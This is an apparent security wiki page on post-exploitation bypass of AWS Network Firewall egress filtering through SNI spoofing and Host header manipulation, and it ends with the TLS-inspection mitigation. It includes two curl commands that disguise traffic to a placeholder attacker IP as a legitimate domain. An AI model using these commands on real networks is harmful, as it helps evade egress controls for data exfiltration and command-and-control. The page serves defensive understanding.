 ```yaml
---
author_name: Federico Lucini
title: AWS Network Firewall Egress Filtering Bypass
description: Bypass AWS Network Firewall Egress Filtering using SNI spoofing and Host Header manipulation.
---
```


<div class="grid cards" markdown>
-   :material-account:{ .lg .middle } __Original Research__

    ---

    [AWS Network Firewall egress filtering can be easily bypassed](https://canglad.com/blog/2023/aws-network-firewall-egress-filtering-can-be-easily-bypassed/) by [Jianjun Huo](https://www.linkedin.com/in/jianjun-h-4a0440)
</div>

AWS Network Firewall implements [egress filtering](https://en.wikipedia.org/wiki/Egress_filtering) with stateful domain list rule groups, enabling organizations to configure allow (or deny) lists of known domains and protect outbound internet traffic from reaching unauthorized destinations, blocking common threats such as data exfiltration and malware command-and-control (C2) communications.

According to [AWS documentation](https://docs.aws.amazon.com/network-firewall/latest/developerguide/stateful-rule-groups-domain-names.html#stateful-rule-groups-domain-names-match-settings), the service uses the **Server Name Indication (SNI)** extension in the TLS handshake to determine the domain name for HTTPS traffic and the **Host Header** for HTTP traffic. However, it does not perform DNS lookups to verify the destination IP address, allowing attackers to reach malicious destinations via *SNI spoofing* or *Host Header manipulation*.

An adversary who has successfully compromised a host can guess legitimate domain names, choosing commonly used API endpoints or specific organization URLs to contact controlled web servers in the following manner:

```bash
curl -H "Host: <legitimate_host>" http://<attacker_ip>

curl -ik https://<legitimate_host> --resolve '<legitimate_host>:<attacker_ip>'
```

In the following examples, the attacker’s public IP is reached using the Windows Update Host Header for HTTP communication and the AWS SSM service SNI for TLS traffic.

![http_screen](../../images/aws/post_exploitation/network_firewall_egress_filtering_bypass/http.png)
![https_screen](../../images/aws/post_exploitation/network_firewall_egress_filtering_bypass/https.png)

To address this issue for HTTPS traffic, AWS recommends implementing **TLS inspection** on Network Firewall. In this case, spoofed traffic will be dropped since the TLS server certificate domain is validated against the SNI. However, this solution requires installing a custom *Certificate Authority (CA)* on each host and **does not protect HTTP traffic**, which is often allowed, for example, for Windows system updates.